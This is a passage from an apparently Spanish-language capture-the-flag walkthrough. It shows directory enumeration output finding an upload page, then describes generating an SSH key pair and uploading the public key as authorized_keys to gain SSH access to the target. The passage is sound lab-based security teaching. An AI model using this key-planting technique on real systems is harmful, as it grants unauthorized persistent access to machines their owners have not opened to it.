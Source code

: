 ```
/index.html           (Status: 200) [Size: 2410]
/readme.txt           (Status: 200) [Size: 78]
/server-status        (Status: 403) [Size: 275]
/upload.php           (Status: 200) [Size: 56]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos que hay un `/readme.txt`, si leemos el `.txt` veremos lo siguiente.

```
It may be that the file that is being uploaded is being uploaded in a .ssh/?
```

Por lo que si lo que se sube, se sube a la carpeta de `.ssh/` podremos hacer lo siguiente.

## Subir clave publica (id\_rsa.pub y authorized\_keys)

Copiaremos nuestra `id_rsa.pub` a nuestro directorio actual.

Si no tenemos una `Clave privada y publica` haremos lo siguiente.

```shell
ssh-keygen -t rsa -b 4096
```

Una vez creadas las claves, haremos lo siguiente.

```shell
cp ~/.ssh/id_rsa.pub .
```

Ahora creamos el archivo `authorized_keys` con el contenido del `id_rsa.pub`.

```shell
cat id_rsa.pub > authorized_keys
```

Una vez teniendo los archivos, subiremos esos dos archivos mediante la pagina.

Una vez seleccionados los 2 archivos y subidos correctamente (Tendra que ponerte este mensaje en la pagina...)

```
Tipo MIME detectado: text/plain
Nombre del archivo subido: id_rsa.pub
Archivo subido correctamente.

Tipo MIME detectado: text/plain
Nombre del archivo subido: authorized_keys
Archivo subido correctamente.
```

## SSH con id\_rsa
